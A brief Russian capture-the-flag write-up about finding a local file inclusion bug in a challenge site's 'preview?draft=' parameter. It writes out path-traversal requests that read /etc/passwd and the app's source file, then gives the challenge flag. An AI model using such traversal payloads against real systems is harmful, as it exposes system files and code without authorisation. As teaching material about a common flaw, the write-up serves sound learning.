


# Разведка
Изучив сайт я заметил, что сайт может читать файлы по ручке:
```url
http://task.duckerz.ru:21045/preview?draft=courses/python101.md
```
Из этого можно сделать вывод, что тут может быть уязвимость LFI

# Проверка уязвимости
Для проверки уязвимости я решил попытаться прочитать файл etc/passwd
```url
http://task.duckerz.ru:21045/preview?draft=../../../../etc/passwd
```
##### Результат:

В итоге уязвимость подтвердилась.
# Эксплуатация уязвимости и поиск флага
Посмотрим код web приложения:
```url
http://task.duckerz.ru:21045/preview?draft=../../../../app/app.py
```

Флаг найден.
DUCKERZ{d3BU9_COn5o1E_gr4nT5_f1nAl_6rADe}
